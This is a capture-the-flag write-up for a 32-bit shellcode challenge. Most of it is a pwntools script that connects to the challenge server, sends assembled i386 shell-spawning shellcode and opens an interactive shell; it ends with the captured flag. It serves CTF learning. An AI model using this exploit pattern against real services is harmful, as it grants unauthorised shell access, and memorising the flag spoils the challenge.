 # I got 32 shells
![image](https://user-images.githubusercontent.com/34862954/164886114-9ef66d3d-e92d-412e-9d3e-e198e9b5d6e3.png)

# Approach
In this ques, the we have to inject a shellcode into the prompt and it will execute the shellcode.\
The ELF file provided was 32 bit.

Let's use pwntools for this as it makes it very easier.

```
from pwn import *


conn = remote('wannahack.copsiitbhu.co.in',2430)
conn.recvline()
conn.recvline()
conn.recvline()
conn.recvline()
conn.recvline()
conn.recvline()

payload = (shellcraft.i386.sh())
print("payload: ", payload)
payload = asm(payload, arch='i386')
conn.send(payload)
print(conn.recvline())
print(conn.recvline())
conn.interactive()
```

`shellcraft.i386.sh()` will provide the 32-bit assembly instructions to enter into the shell.

'asm(payload, arch='i386')' will assemble the assembly code into bytes.

On executing this, you will get the access to bash shell.<br>
![image](https://user-images.githubusercontent.com/34862954/164888296-0dba1733-3b8d-4c94-9b9b-a860d350a28a.png)

In this way, you get the flag.<br>
flag: `wannahack{5h311c0d3_0n_32b1t_1s_50_01d_:(}`<br>
Enjoi!!

